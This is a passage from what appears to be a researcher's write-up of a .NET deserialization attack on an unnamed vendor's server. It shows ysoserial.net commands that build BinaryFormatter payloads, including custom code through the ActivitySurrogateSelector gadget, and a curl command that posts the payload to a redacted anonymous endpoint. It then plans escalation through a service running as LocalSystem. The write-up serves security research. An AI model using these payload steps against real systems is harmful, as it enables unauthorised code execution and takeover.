 Here's the final command for generating the calculator payload. Except for the gadget, it was taken straight from the [example section](https://github.com/pwntester/ysoserial.net#examples) in `YSoSerial.Net's` readme.

```sh
 $ ./ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "calc" -t
```

Most of the `YSoSerial` gadgets let you specify a command like that. But how do we actually run custom _code_?

Honestly, it took me a while to find out. But reading the output of `--fullhelp` carefully, we can see this:

```sh { linenos=true, linenostart=1, hl_lines=["6"] }
$ ./ysoserial.exe --fullhelp
ysoserial.net generates deserialization payloads for a variety of .NET formatters.

== GADGETS ==
# ... snip ...
        (*) ActivitySurrogateSelector [This gadget ignores the command parameter and executes the constructor of ExploitClass class]
                Formatters: BinaryFormatter (2) , LosFormatter , SoapFormatter
# ... snip ...
```

Line 6 mentions the `ExploitClass`, which is part of the repository. The constructor of that class is the place where we write our code. After building the project and executing the following command, we receive our custom code payload.

```sh
 $ ./ysoserial.exe -f BinaryFormatter -g ActivitySurrogateSelector -c -o base64
```

Even though the `command` parameter is ignored, the `-c` flag **must** be specified!

Finally, let's send our payload to the server in a way that doesn't mess with the bits and bytes:

```sh
 $ curl -X POST --data-binary "@./OpenDoorPolicy-PoC.bin" http://<hostname>/<redacted>/<redacted>/<redacted>/native/<redacted>/anonymous/ --output - -v
```

Oh my, that was a lot of work to get another initial attack mounted. We're not even half done here, though:

Our code only runs in the context of the `IIS Apppool\<appname>` user. We need _some_ way to further escalate privileges. So what exactly do we put into the payload? Wanting to stay inside the vendor's ecosystem, what options do we have available?


### Fileserver {#fileserver}

Introducing the `Fileserver` (`FS`), which is responsible for handling... exactly.

It's the only `Windows` service left that runs by default in the newest version of the product. Oh, it also runs as [LocalSystem](https://learn.microsoft.com/en-us/windows/win32/services/localsystem-account), which makes it a perfect target.


[^fn:1]: It gets a bit murky if new functionality is created by [jumping into the middle of an instruction](https://devblogs.microsoft.com/oldnewthing/20220111-00/?p=106144), though.
[^fn:2]: Which is exactly why I've put two challenges inspired by it straight _into_ a `CTF`: [Here](https://github.com/LosFuzzys/GlacierCTF2022/tree/main/web/rce_as_a_service_stage1) and [here](https://github.com/LosFuzzys/GlacierCTF2022/tree/main/web/rce_as_a_service_stage2).
[^fn:3]: The PHP `expect` module has to be loaded.
[^fn:4]: In contrast to `ROP` Gadgets, these are actually bigger than a couple of bytes.
[^fn:5]: I'm explicitly **not** dunking on the developers! Stuff simply accumulates over time.
[^fn:6]: We have a **ton** of dependencies, but only to the [Base Class Library](https://learn.microsoft.com/en-us/dotnet/standard/glossary#bcl).
[^fn:7]: Making a HTTP request (granted: it throws an exception), manipulating files like the legitimate program does.